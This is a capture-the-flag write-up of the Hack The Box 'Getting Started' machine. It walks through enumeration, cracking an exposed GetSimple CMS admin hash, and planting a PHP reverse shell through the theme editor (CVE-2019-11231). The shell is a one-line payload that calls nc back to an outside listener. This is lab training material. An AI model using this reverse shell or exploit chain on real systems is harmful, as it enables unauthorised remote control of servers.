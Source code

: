 ## **Hack The Box - Getting Started**

**Creator:** 

**Difficulty:** Easy

**Link:** 

---


<ins> **Introduction** </ins>

*Getting Started* is an Easy Level system and is meant to be the first *blackbox* machine someone following the *Penetration Tester* Learning path would encounter. As such I was not able to obtain creator information, a direct link to the machine, or it's info card. Although I can register a guess who the creator was based on a username found on the system.
In this challenge I gain a foothold by exploiting [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). From there I'm able to obtain root access using the *www-data* users sudo privileges over the *php* command that can be found on [GTFO Bins](https://gtfobins.github.io/gtfobins/php/#sudo).

---

<ins> **Enumeration** </ins>

I Normally start each machine with an *nmap* scan and this one was no exception. 

![nmap output](/docs/assets/images/HTB/gettingstarted/gettingstarted1.png)

Port 22/tcp open to ssh using OpenSSH 8.2p1
 
Port 80/tcp open to http using Apache httpd 2.4.41

Neither one yielded any results initially with *searchsploit*. Navigating over to the webpages showed me what looked like an outline for a blog or something running *GetSimple* Content Managment System. This page contains a few links to documentation for *GetSimple* and some support forums. There are also some headers containing some content in a language I can't read, a list of features, and finally a link to *gettinstarted*. 

![searchsploit](/docs/assets/images/HTB/gettingstarted/gettingstarted2.png)

![webpage](/docs/assets/images/HTB/gettingstarted/gettingstarted3.png)

Navigating over to *gettingstarted* brings me to a server not found page. I noticed the ip_address in the url bar change itself into a hostname, which tells me I'll have to edit them into my */etc/hosts* file. Once I do that I'm able to load a webpage very similar to the one I was on before.

![404](/docs/assets/images/HTB/gettingstarted/gettingstarted4.png)

![etc hosts](/docs/assets/images/HTB/gettingstarted/gettingstarted5.png)

![webpage loaded](/docs/assets/images/HTB/gettingstarted/gettingstarted6.png)

I wasn't able to find a whole lot on the web page as it is. The next step for me was to run *gobuster* against the webserver. I started with a simple word list and got several hits. Three with a status code of 200, */index.php, /robots.txt, /sitemap.xml*, and five with a status code of 301 */theme, /plugs, /data, /backups, /admin*. 

`gobuster dir –u <target_ip> -w /usr/share/dirb/wordlists/common.txt`

![gobuster](/docs/assets/images/HTB/gettingstarted/gettingstarted7.png)

I spent some time navigating through these directories and seeing what information I could find from them. The */admin* directory redirected to a login page with a nonspecific error message, and inside of the */data* directory I was able to find an *api key* and what was likely the specific version of *GetSimple*, being *GetSimple 3.3.15*.

![admin login](/docs/assets/images/HTB/gettingstarted/gettingstarted10.png)

![nonspecific error](/docs/assets/images/HTB/gettingstarted/gettingstarted11.png)

![api key](/docs/assets/images/HTB/gettingstarted/gettingstarted8.png)

![GetSimple Version](/docs/assets/images/HTB/gettingstarted/gettingstarted9.png)

*Searchsploit* again failed to yield any results for this specific version. At this point I kind of hit a wall so I spent some time on google searching for the service versions I found already which is where I found [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). 

![searchsploit getsimple](/docs/assets/images/HTB/gettingstarted/gettingstarted12.png)

![CVE-2019-11231](/docs/assets/images/HTB/gettingstarted/gettingstarted13.png)

Immediately what stood out to me was this line about password exposure:

> However, what is overlooked is that the Apache HTTP Server by default no longer enables the AllowOverride directive, leading to data/users/admin.xml password exposure.

Sure enough navigating over to the *data/users/admin.xml* directory leads to some exposed login credentials *admin:d033e22ae348aeb5660fc2140aec35850c4da997*. The password is hashed but I was able to easily put that into a file and use *john* to crack it.

```
echo "d033e22ae348aeb5660fc2140aec35850c4da997" > passhash.txt
sudo john passhash.txt
```
![password hash](/docs/assets/images/HTB/gettingstarted/gettingstarted14.png)

![john](/docs/assets/images/HTB/gettingstarted/gettingstarted15.png)

The password is *admin*. Navigating back over to the */admin* directory I enter the credentials *admin:admin* and gain access to the CMS admin page.

![CMS admin page](/docs/assets/images/HTB/gettingstarted/gettingstarted16.png)

---


<ins> **Exploitation** </ins>

According to the CVE I found the *theme-edit.php* file has poor input sanitization and allows for the upload of arbitrary content like php code. So I'm just going to replace everything currently in the editor with a php reverse shell.  

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.152 3232 >/tmp/f"); ?>`



![Theme Editor](/docs/assets/images/HTB/gettingstarted/gettingstarted17.png)

![php rev shell](/docs/assets/images/HTB/gettingstarted/gettingstarted18.png)

After that I will set up a listener in a new terminal then navigate over to the file path, *http://gettingstarted.htb/theme/innovation/* as specified on the *Content Theme* page, and click the file now containing the payload to execute it.

![listener](/docs/assets/images/HTB/gettingstarted/gettingstarted19.png)

![filepath](/docs/assets/images/HTB/gettingstarted/gettingstarted20.png)

![execute shell](/docs/assets/images/HTB/gettingstarted/gettingstarted21.png)


